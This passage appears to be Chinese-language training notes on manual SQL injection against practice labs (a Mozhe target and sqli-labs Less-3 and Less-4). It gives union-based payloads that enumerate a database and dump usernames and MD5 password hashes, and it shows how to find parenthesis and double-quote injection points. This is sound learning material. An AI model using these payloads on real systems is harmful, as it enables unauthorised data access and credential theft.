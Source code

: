 ## 爆数据库
两种方法(见上个sql注入例子)使用其中一个

```
haha' union select 1,user(),database(),4 --+
```
得到数据库`mozhe_discuz_stormgroup`
## 爆表

```
haha' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema='mozhe_discuz_stormgroup'
```
得到表:`stormgroup_member`

## 爆字段

```
haha' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='stormgroup_member
```
得到字段:`name,password`

## 爆数据

```
haha' union select 1,group_concat(name),group_concat(password),4 from mozhe_discuz_stormgroup.stormgroup_member --+
```

得到两组数据其中`password`为md5密文

## 登录
解密md5密文,得到两组账户.其中一个可以登录得到flag

# 手工注入 字符 回显 括号闭合
使用sqli-labs靶场 less3
## 判断注入类型
直接输入`id=1`,返回页面变化,判断存在注入
输入`id=1'`,返回错误页

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```
语法错误,分析`'1'') LIMIT 0,1`,可以看出这是一个字符注入类型,只用单引号去闭合前面的1还不行,我们可以推测出,元语句应该是这样的`('参数')`
所以需要传入`id=1')`来闭合前面的括号,后面的括号用注释符号注释`id=1') --+`
也可以直接传入`id=1-2') --+`比对和`id=-1') --+`的返回页面是否相同来判断是数字注入还是字符注入.

# 手工注入 字符 回显 双引号闭合
使用使用sql-labs靶场 less-4
## 判断注入类型
输入`id=1`页面发生变化,存在注入点
输入`id=1'`回显正常和`id=1`一样
输入`id=1"`回显错误信息,存在双引号注入
